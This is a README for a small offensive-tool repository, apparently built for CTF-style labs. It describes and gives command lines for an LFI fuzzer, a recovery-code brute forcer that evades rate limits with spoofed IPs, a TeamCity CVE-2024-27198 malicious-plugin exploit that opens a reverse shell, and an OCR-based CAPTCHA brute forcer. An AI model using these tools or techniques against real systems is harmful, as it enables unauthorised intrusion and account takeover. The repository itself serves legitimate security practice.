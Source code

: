 # FuzzingTools

## LFI Fuzzer

A multithreaded Local File Inclusion (LFI) fuzzing tool with a Rich progress bar.
It sends payloads from a wordlist to a target URL, checks for successful inclusion based on keywords, and saves results.

## Usage

python3 lfi_fuzzer.py -w wordlist.txt -u "http://target.com/page?file={}" -t 10 \
-H headers.txt -o all_results.txt -s success.txt -k "root:x:,Windows" -S

## 4-Digit Recovery Code Brute Forcer

This Python script brute-forces a 4-digit numeric recovery code on a vulnerable reset_password.php endpoint. It uses threading, random spoofed IPs (X-Forwarded-For), and a provided PHP session to bypass rate-limiting and speed up the attack.

## Usage
python3 bypass_rate_limiting.py -ip <TARGET_IP> -p <PORT> -SID <PHPSESSID> -t <THREADS>

## TeamCity Evil Plugin Exploit

This script automates the process of building, uploading, enabling, and triggering a malicious TeamCity plugin that provides a reverse shell.

## Usage
python3 teamcity_CVE-2024-27198.py -t http://target:8111 -l 10.10.14.5 -p 4444

## Captcha Brute-Force

This Python script automates login attempts on a web page protected by a CAPTCHA. It uses Selenium to control a browser, downloads the CAPTCHA image, reads it using OCR (pytesseract), and tries passwords from a given wordlist.

## Usage

python3 captcha_brute_force.py -t traget_url -w wordlist -u username -c captcha_page

## Dependencies

pip3 install --upgrade pip
pip3 install selenium pillow pytesseract requests
sudo apt update
sudo apt install tesseract-ocr

